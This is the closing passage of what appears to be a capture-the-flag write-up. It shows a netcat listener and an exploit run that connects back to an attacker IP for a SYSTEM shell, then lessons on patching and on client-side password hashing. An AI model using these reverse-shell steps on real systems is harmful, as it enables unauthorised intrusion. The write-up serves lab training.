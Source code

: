 ![](../images/max/581/1*qPCUGbEgK8aqA21u5erKCw.png)

Start up another listener on the attack machine.

```text
nc -nlvp 6666
```

Run the exploit.

```text
exploit.exe 10.10.14.6 6666
```

We have system!

![](../images/max/635/1*HIOUV1dyIFzvmiuomNT85A.png)

Grab the root flag.

![](../images/max/482/1*dmzoWaGHptiks_u1v3fRCw.png)

## Lessons Learned <a id="0a4b"></a>

What allowed me to gain initial access to the machine and escalate privileges, is exploiting known vulnerabilities that had patches available. So it goes without saying, you should always update your software!

The second thing worth mentioning is the way the application handled passwords. The password was first hashed using SHA1 and then cryptographically hashed using HMAC with a salt value as the key. All this was done on the client side! What does client side mean? The client has access to all of it \(and can bypass all of it\)! I was able to access the administrator account without knowing the plaintext password.
